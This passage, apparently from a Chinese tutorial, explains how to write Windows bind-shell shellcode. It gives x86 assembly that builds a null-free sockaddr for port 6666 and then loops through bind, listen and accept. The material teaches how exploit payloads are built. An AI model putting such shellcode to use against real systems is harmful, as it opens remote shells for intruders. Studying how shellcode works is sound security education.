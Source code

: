 观察下面`bind`的形参，其实结构体名字并不重要，所以只需关心`sockaddr_in`前两个变量。另外，结构体长度的参数只要足够大就行。这里用`0x0a1a0002`作为其数值，其中`0x0a1a`是6666，可以用作后面的端口号，`0x02`可以指明`AF_INET`，但是这个四字节的数包含`0x00`，所以我们需要做一些手脚才能构造出来：

```cpp
int bind(
  _In_ SOCKET                s,
  _In_ const struct sockaddr *name,
  _In_ int                   namelen
);

struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};
```

```assembly
; push bind parameters 
	mov eax, 0x0a1aff02 		; 0x1a0a = port 6666, 0x02 = AF_INET 
	xor ah, ah					; remove the ff from eax 
	push eax	 				; we use 0x0a1a0002 as both the name (struct 
								; sockaddr) and namelen (which only needs to 
								; be large enough) 
	push esp 					; pointer to our sockaddr struct 
```

结构体中其他为NULL的部分就不必操心了。然后是`listen`/`accept`：

```cpp
int listen(
  _In_ SOCKET s,
  _In_ int    backlog
);

SOCKET accept(
  _In_    SOCKET          s,
  _Out_   struct sockaddr *addr,
  _Inout_ int             *addrlen
);
```

注意，`accept`返回另一个socket，而`bind`和`listen`在执行成功时都返回0，这一点可以作为判断循环是否结束的条件：

```assembly
; call bind(), listen() and accept() in turn 
call_loop: 
	push ebp					; saved SOCKET descriptor (we implicitly pass 
								; NULL for all other params) 
	lodsd 
	call eax 					; call the next function 
	test eax, eax 				; bind() and listen() return 0, accept() 
								; returns a SOCKET descriptor 
	jz call_loop 
```
